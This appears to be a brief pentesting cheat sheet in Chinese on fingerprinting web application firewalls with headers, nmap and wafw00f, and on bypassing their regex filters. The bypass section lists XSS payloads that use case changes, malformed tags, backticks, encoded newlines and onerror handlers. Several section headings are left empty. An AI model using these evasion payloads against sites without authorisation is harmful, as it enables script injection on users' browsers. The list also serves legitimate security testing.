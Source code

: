 # Web Application Firewall (WAF)
https://medium.com/@allypetitt/5-ways-i-bypassed-your-web-application-firewall-waf-43852a43a1c2 <br>
## 手動識別 WAF
- WAF 的名稱Server 標題（例如Server: cloudflare）
- 與 WAF 相關的其他 HTTP 回應標頭（例如CF-RAY: xxxxxxxxxxx）
- 看似由 WAF 設定的 Cookie（例如回應標頭Set-Cookie: __cfduid=xxxxx）
- 提交惡意請求時的唯一回應代碼。 （例如412）
- 可以透過FIN/RST向伺服器發送 TCP 封包

## 自動化識別 WAF
1. Nmap
  - Nmap 腳本引擎 (NSE) 包含用於偵測和指紋辨識防火牆的腳本
  - $ nmap --script=http-waf-fingerprint,http-waf-detect -p443 example.com
2. WafW00f
  - 命令列實用程序
  - $ wafw00f example.com
3. WhatWaf

# Bypassing WAFs
## Bypassing Regex
- 更改有效載荷的大小寫 :
    - <sCrIpT>alert(XSS)</sCriPt> 
- 使用各種編碼、替換函數或字元 :
    - 在前面加上一個額外的「<」:  << script>alert(XSS)</script >
    - 刪除結束標籤 :  <script>alert(XSS) //
    - 使用反引號取代代號代替 : <script>alert`XSS`</script>
- 使用其他語法以及使用換行符或製表符。
    - 雙開尖括號 : java%0ascript:alert ( http.com 
    - 不常見的標籤 : <"STYLE>.classname{background-image:url( "javascript:alert(XSS)" );/STYLE">
    - 需要繞過: <"img/src=1/onerror=alert(0)">
    - 額外字符 : aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa href=javascript:alert(1)>xss</a">"

## Obfuscation 混淆 

## Charset 字元集

## Content Size 內容大小

## Unicode Compatibility

## Uninitialized Variables 未初始化
